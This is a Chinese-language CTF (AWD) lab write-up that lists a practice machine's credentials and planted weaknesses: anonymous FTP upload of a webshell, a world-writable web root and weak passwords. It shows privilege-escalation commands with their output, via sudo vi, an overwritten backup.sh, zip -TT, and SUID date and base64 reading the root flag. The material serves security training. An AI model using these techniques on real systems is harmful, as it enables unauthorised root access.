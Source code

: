# AWD 模式攻击

## 凭证信息 (Credentials)

### 默认配置使用 T1 的凭证 (密码不是加密后的 hash ，用 hash 做的密码)
-   **MySQL Root 用户:**
    ```
    T1: root:$1$0kRGbLi5$o1jTxIVwcDWSOcKtTLukM1
    T2: root:$1$xDRC88E9$NuBtIeH1q2Xndltvfk0Wu0
    ```
-   **Linux Root 用户:**
    ```
    T1: root:$1$DcI4hlB5$7Fzb9WR6XrBFwjHgBcpA61
    T2: root:$1$zu5fqmiV$hRUIt5Hp0LQwlBSDC5XuA0
    ```
-   **Linux welcome 用户:**
    ```
    T1: welcome:welcome
    T2: welcome:welcome
    ```
-   **WEB admin 用户:**
    ```
    T1: admin:babygirl94andrew10
    T2: admin:jeanjeandianacarolina
    ```
## FTP 服务

-   允许匿名登录。
-   可以访问服务器根目录 (`/`)。
-   允许上传文件。

## Web 目录权限 (`/var/www/html/`)

-   权限设置为 `777` (可读、可写、可执行)。
-   **利用方式:** 结合 FTP 匿名上传权限，可以直接上传 PHP Webshell (例如 `shell.php`) 到 Web 根目录，实现远程代码执行 (RCE)。

## Web robots.txt 文件
-   **提示信息:** 在 `robots.txt` 文件中可以找到以下内容：
    ```
    User-agent: *
    Disallow: /xxxxx
    ```
    之后你可以看到
    ```
    噢，防止我忘记密码，我把密码放在这里一份

    pw: xxxxxxxx
    ```
    xxxxxxxx 将是 admin 用户的密码

## `welcome` 用户密码复用

-   `welcome` 用户的 Linux 登录密码与其用户名相同，均为 `welcome`。
-   **提示信息:** 在 `/home/welcome/note.txt` 文件中可以找到以下内容：
    ```
    From root@localhost:

        朋友，你的密码太弱了，一旦知道你的用户名，不久知道密码了吗？

                        To welcome@localhost
    ```
    这暗示了 `welcome` 用户名和密码相同。

## Sudo 滥用
-   www-data 用户:
```bash
root@dmsy-awd:~# sudo -u www-data sudo -l
Matching Defaults entries for www-data on dmsy-awd:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on dmsy-awd:
    (welcome) NOPASSWD: /usr/bin/vi
```
    可以 !bash 提权

-   welcome 用户:
```bash
root@dmsy-awd:~# sudo -u welcome sudo -l
[sudo] password for welcome: 
Matching Defaults entries for welcome on dmsy-awd:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User welcome may run the following commands on dmsy-awd:
    (ALL) PASSWD: /home/*/backup.sh, /bin/zip
```
#### 提权路径
```bash
welcome@dmsy-awd:~$ mv backup.sh backup.sh.bak
welcome@dmsy-awd:~$ echo 'cp /bin/bash /tmp/bash;chmod +s /tmp/bash' > backup.sh
welcome@dmsy-awd:~$ chmod +x backup.sh
welcome@dmsy-awd:~$ ls -la /tmp/bash 
-rwsr-sr-x 1 root root 1168776 Apr 23 10:43 /tmp/bash
welcome@dmsy-awd:~$ /tmp/bash -p
bash-5.0# id
uid=1000(welcome) gid=1000(welcome) euid=0(root) egid=0(root) groups=0(root),1000(welcome)

welcome@dmsy-awd:~$ TF=$(mktemp -u)
welcome@dmsy-awd:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
\# id
uid=0(root) gid=0(root) groups=0(root)
```

## SUID 提权
-   查找 SUID 可执行文件:

```bash
welcome@dmsy-awd:~$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/date
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/base64
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/passwd
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
```
-  发现 data 和 base64 有 SUID 权限 

```bash
welcome@dmsy-awd:~$ LFILE=/root/root.txt
welcome@dmsy-awd:~$ date -f $LFILE
date: invalid date ‘flag{1998cbf9-1f88-11f0-a369-000c29094b2d}’

welcome@dmsy-awd:~$ base64 "$LFILE" | base64 -d
flag{1998cbf9-1f88-11f0-a369-000c29094b2d}
```

## 彩蛋
